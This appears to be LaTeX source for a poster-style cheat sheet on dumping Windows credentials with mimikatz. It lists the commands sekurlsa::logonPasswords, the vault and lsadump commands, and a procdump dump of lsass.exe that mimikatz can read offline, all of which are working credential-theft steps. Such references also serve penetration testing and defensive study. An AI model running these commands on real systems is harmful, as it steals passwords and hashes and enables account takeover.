\documentclass[landscape,a0paper,fontscale=0.285]{baposter} %
\begin{document}
\begin{poster}
{\hspace*{.25cm}\textit{mimikatz \# sekurlsa::logonPasswords \\\hspace*{1.25cm}\textbf{Authentication Id : 0 ;\\
\hspace*{1.25cm}Session           : Interactive from 1\\
\hspace*{1.25cm}User Name         : USERNAME\\
\hspace*{1.25cm}Domain            : DOMAIN\\
\hspace*{1.25cm}Logon Server      : LastDomainController\\
\hspace*{1.25cm}Logon Time        : 1/1/1970 9:30:47 AM\\
\hspace*{1.25cm}SID               : S-1-5-21-***}} \\
\colorbox[HTML]{FFE4B5}{}
Additional creds are maintained by the Windows Credential Manager, Windows Vault and SAM:\\
\begin{tabular}{|l|p{4.25cm}| }
\hline
\hspace*{.5cm}Name &  \hspace*{1.0cm}Description\\
\hline
vault::cred & Credential Manager Creds\\
vault::list & Windows Vault Creds\\
lsadump::sam &  Key to decrypt SAM\\
lsadump::secrets & Key to decrypt SECRETS\\
lsadump::cache & Key to decrypt MSCache(v2)\\
\hline
\end{tabular}
\colorbox[HTML]{FFE4B5}{}
\textbf{mimikatz} can make use of the dump of an lsass process using \textbf{procdump}:\\
\hspace*{.25cm}\textit{procdump.exe -ma lsass.exe minidump.dmp 2>\&1}
This can then be read into \textbf{mimikatz}:\\
\hspace*{.25cm}\textit{mimikatz \# sekurlsa::minidump minidump.dmp}

}
\end{poster}
\end{document}
